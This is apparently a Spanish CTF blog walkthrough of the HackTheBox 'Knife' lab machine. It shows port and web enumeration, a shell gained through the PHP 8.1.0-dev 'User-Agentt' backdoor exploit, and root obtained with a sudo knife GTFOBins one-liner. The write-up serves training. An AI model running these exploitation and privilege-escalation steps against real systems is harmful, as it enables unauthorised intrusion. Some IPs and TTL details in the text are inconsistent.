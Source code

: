 ```yaml
---
title: HTB - Knife
published: true
categories: [Linux]
tags: [eJPT, Fácil]
---
```


<img src="/assets/HTB/Knife/knife.png">

¡Hola!
Vamos a resolver de la máquina `Knife` de dificultad "Fácil" de la plataforma [HackTheBox](https://hackthebox.com/).

Técnicas Vistas: 

- **PHP 8.1.0-dev - 'User-Agent' Remote Code Execution [RCE]**
- **Abusing Sudoers Privilege (Knife Binary) [Privilege Escalation]**

### Preparación Entorno

* * *

Antes de iniciar la fase de enumeración y reconocimiento procederemos a crear un directorio de trabajo con el nombre `Knife`. Una vez creado accedemos al directorio y con la ayuda de la función que tenemos definida en la zshrc `mkt` crearemos cuatro directorios de trabajo `nmap, content, exploits y scripts` donde almacenaremos de una manera ordenada toda la información que vayamos recopilando de la máquina en función de su naturaleza.

```bash
function mkt(){
    mkdir {nmap,content,exploits,scripts}
}
```

### Reconocimiento

* * *

Accedemos al directorio de trabajo `nmap` e iniciamos nuestra fase de reconocimiento realizando un `ping` a la IP de la máquina para comprobar que esté activa y detectamos su sistema operativo basándonos en el `ttl` de una traza **ICMP**.

```bash
❯ ping -c 1 10.10.10.242
PING 10.10.10.242 (10.10.10.242) 56(84) bytes of data.
64 bytes from 10.10.10.226: icmp_seq=1 ttl=63 time=42.3 ms

--- 10.10.10.242 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 42.314/42.314/42.314/0.000 ms
```
Identificamos que es una maquina **Linux** debido a su ttl (time to live) correspondiente a 127 (Disminuye en 1 debido a que realiza un salto adicional en el entorno de HackTHeBox).

* TTL => 64 Linux
* TTL => 128 Windows

Continuamos con la enumeración de los **65535** puertos en la máquina.

```bash
nmap -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.242 -oG allPorts

PORT     STATE SERVICE REASON
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
Luego de identificar los puertos abiertos `OPEN`, se procede a escanear servicios y versiones que puedan estar corriendo en los puertos abiertos detectados.

```bash
nmap -sCV -p22,80 10.10.10.242 -oN targeted

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
### Reconocimiento Web

* * *

Iniciamos el reconocimiento del servicio web con la herramienta `whatweb` la cual nos muestra información sobre las tecnologías web que incluyen sistemas de gestión de contenido (CMS), plataformas de blogs, paquetes de estadísticas / análisis, bibliotecas JavaScript, servidores web y dispositivos integrados.

```bash
❯ whatweb http://10.10.10.242

http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

Accedemos al servicio web y vemos la página principal. Poco podemos hacer no hay ningún elemento clickable 


<img src="/assets/HTB/Knife/web.png">


Observando las tecnologías del servicio web vemos una versión de `PHP 8.1.0-dev` por lo que procedemos a buscar vulnerabilidades asociadas con la herramienta `searchsploit`

```bash
❯ searchsploit php 8.1.0-dev
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                           |  Path
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                                                      | php/webapps/49933.py
--------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```
Observando el código del script vemos que esta versión de PHP es vulnerable a un backdoor. Nos traemos el script a nuestro directorio de trabajo exploits y lo ejecutamos

```bash
 python3 exploit.py
Enter the full host url:
http://10.129.77.254

Interactive shell is opened on http://10.10.10.242 
Can't acces tty; job crontol turned off.
$ whoami
james
```
Hemos ganado acceso con el usuario `james`. Para trabajar más cómodamente nos ponemos en escucha en el puerto 443 y entablamos una reverse shell con plena capacidad de maniobra


<img src="/assets/HTB/Knife/shell.png">


La flag de usuario la encontramos en la carpeta home

```bash
james@knife:/$ cat /home/james/user.txt 
e2c6a36c07e132a56***************
```

### Escalada Privilegios

* * *

Listamos privilegios de sudo asignados y encontramos un archivo propietario de root sobre el cual tenemos capacidad de escritura

```bash
james@knife:/$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/$ ls -l /usr/bin/knife 
lrwxrwxrwx 1 root root 31 May  7  2021 /usr/bin/knife -> /opt/chef-workstation/bin/knife
```

Consultamos `GTFOBins` y encontramos un oneliner que nos otorga privilegios de root


<img src="/assets/HTB/Knife/sudo.png">


Ejecutamos dicha instrucción y escalamos privilegios. la flag se encuentra en el directorio `/root`

```bash
james@knife:/$ sudo knife exec -E 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
4fcea36521dd30958***************
```

Hemos completado la máquina **Knife** de HackTheBox!! Happy Hacking!!


<img src="/assets/HTB/Knife/pwned.png">
